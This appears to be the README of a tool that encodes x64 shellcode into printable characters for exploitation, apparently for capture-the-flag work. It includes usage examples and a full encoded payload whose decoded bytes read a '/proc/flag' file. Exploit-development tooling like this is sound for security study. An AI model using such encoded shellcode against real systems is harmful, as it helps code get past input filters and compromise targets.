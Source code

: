 # x64 printable shellcode encoder

### Dependencies
 - pwntools (`pip install pwntools`)
 - z3 python bindings (`pip install z3-solver`)

### Usage
`./main.py <shellcode file> <pointer to shellcode>`

For the encoded shellcode to work it needs to be able to know where it will execute. This is done by passing the encoder a pointer to your shellcode. This should be an expression that is the address of the start of the shellcode in the victim's address space. For example, if rdx happens to point to your shellcode, use `rdx`. If the shellcode is always at 0x4001000, specify that. Etc. Also, if you want to use a negative offset you must use `base+-offset`. This is because I hacked the parser together really quickly.

#### Examples
- `./main.py shellcode.bin rcx`
- `./main.py shellcode.bin [rsp+-8]`
- `./main.py shellcode.bin 0x0123456789abcdef`
- `./main.py shellcode.bin rbp+5`

### Example output
```
$ python main.py shellcode.bin rax+0x150
Encoding stage2
488b0432 => 4863343a31343a53582d702835332d74205f5f35543c6f5f505e31343a57582d7c6f3f7e2d405042402d40407e41505f
480faf44 => 4863343a31343a53582d505040792d743020693574703059505e31343a57582d7c6f3f7e2d405042402d40407e41505f
32084889 => 4863343a31343a53582d244874202d5f606c20354f5f5736505e31343a57582d7c6f3f7e2d405042402d40407e41505f
043a83c7 => 4863343a31343a53582d402233402d706020203554472f58505e31343a57582d7c6f3f7e2d405042402d40407e41505f
0883c610 => 4863343a31343a53582d403346322d7020207e35582f5f5f505e31343a57582d7c6f3f7e2d405042402d40407e41505f
85c075e8 => 4863343a31343a53582d204775202d202160403545575f77505e31343a57582d7c6f3f7e2d405042402d40407e41505f
Multiply-encoding stage3
eb365f31c0040231 => 45375d7168724246 6f4047487268284e
f60f054889c76681 => 456453557d232227 7e3e7d2d6b72697d
ecff0f4889e648c7 => 615a285150304752 6c3f4c4848644a47
c2ff0f000031c00f => 4178757b577d6869 423f6f5f41715055
0531ff4080c70148 => 3d7d537e307c7458 694f37294a726258
89c231c0ffc00f05 => 41233b202b406267 497538523e77406d
31ff31c0043c0f05 => 43667e753a6f6443 7b5f2c5b2b444651
e8c5ffffff2f7072 => 51424b2d33383b23 68457d3f3f2b7076
6f632f666c616700 => 5d774b667832573f 3b553d6f4d7e5b55
Assembling jump at +408

Encoding preamble for rdx <- rax+0x150
PPTAYAXVI31VXXXf-0~f-@Bf-@>PZ

Original length: 72
Encoded length:  556
Preamble length: 29
Total length:    585

PPTAYAXVI31VXXXf-0~f-@Bf-@>PZTAYAXVI31VXPP[_Hc4:14:SX-p(53-t __5T<o_P^14:WX-|o?~-@PB@-@@~AP_Hc4:14:SX-PP@y-t0 i5tp0YP^14:WX-|o?~-@PB@-@@~AP_Hc4:14:SX-$Ht -_`l 5O_W6P^14:WX-|o?~-@PB@-@@~AP_Hc4:14:SX-@"3@-p`  5TG/XP^14:WX-|o?~-@PB@-@@~AP_Hc4:14:SX-@3F2-p  ~5X/__P^14:WX-|o?~-@PB@-@@~AP_Hc4:14:SX- Gu - !`@5EW_wP^14:WX-|o?~-@PB@-@@~AP_SX- `Ba- @BA5X^{]P_Hc4:14:SX-*90 -E'  5n}?/P^14:WX-|o?~-@PB@-@@~AP_SX- `@a- @PA5\^o]P^SX-@@@"-y``~5____P_AAAAE7]qhrBFo@GHrh(NEdSU}#"'~>}-kri}aZ(QP0GRl?LHHdJGAxu{W}hiB?o_AqPU=}S~0|tXiO7)JrbXA#; +@bgIu8R>w@mCf~u:odC{_,[+DFQQBK-38;#hE}??+pv]wKfx2W?;U=oM~[U
```

